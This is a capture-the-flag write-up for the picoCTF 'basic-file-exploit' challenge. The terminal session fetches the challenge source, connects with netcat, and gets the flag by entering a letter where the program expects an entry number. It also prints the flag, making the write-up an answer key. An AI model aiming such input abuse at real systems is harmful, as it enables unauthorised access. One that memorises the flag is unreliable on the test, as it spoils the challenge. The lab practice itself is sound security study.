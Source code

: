 ## basic-file-exploit

# objetivo
- The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! Connect to the program with netcat: `$ nc saturn.picoctf.net 49698` The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/541/program-redacted.c).

---

# Hints
- Try passing in things the program doesn't expect. Like a string instead of a number.

# solucion
``` bash 
(kali㉿kali)-[~]
└─$ wget https://artifacts.picoctf.net/c/541/program-redacted.c
--2022-11-25 11:25:45--  https://artifacts.picoctf.net/c/541/program-redacted.c
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 65.9.149.62, 65.9.149.57, 65.9.149.123, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|65.9.149.62|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4202 (4.1K) [application/octet-stream]
Saving to: ‘program-redacted.c’

program-redact 100%   4.10K  --.-KB/s    in 0s          

2022-11-25 11:25:46 (40.2 MB/s) - ‘program-redacted.c’ saved [4202/4202]
(kali㉿kali)-[~]
└─$ nc saturn.picoctf.net 49698
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
Timed out waiting for user input. Press Ctrl-C to disconnect
Goodbye!

(kali㉿kali)-[~]
└─$ code program-redacted.c

(kali㉿kali)-[~]
└─$ nc saturn.picoctf.net 49698
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
test
test
Please enter the length of your data:
4
4
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
a
a
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_1B9F5942}
```
# bandera
- picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_1B9F5942}